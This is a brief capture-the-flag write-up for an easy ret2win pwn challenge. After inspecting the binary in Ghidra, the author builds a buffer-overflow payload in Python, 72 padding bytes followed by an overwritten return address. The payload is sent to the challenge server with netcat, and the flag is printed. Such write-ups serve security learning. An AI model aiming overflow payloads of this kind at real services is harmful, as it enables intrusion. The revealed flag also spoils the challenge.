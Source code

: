 __Challenge Name : Returning to Winning__

Category : PWN

Difficulty : Easy

Points : 50

Author : Samarth Kamble aka {__Nul1Sh4rk__}

DESCRIPTION : A simple pwn challenge

Attachment : [Challenge](c)

In this challenge they provided a attachment first step I done that is ghidra 
and saw this.
![Ghidra](image.png)

next where I created a simple payload using python 

```python
python2 -c print'"A"*72 + "\x96\x11\x40\x00\x00\x00\x00\x00"' > payload
```
Then using that payload binary exploited netcat server

$$
nc 13.201.11.182 31414 < payload
$$

![Flag](image-1.png)


Flag : 0CTF{r3t2w!n_c4n_b3_v3ry_e4sy}


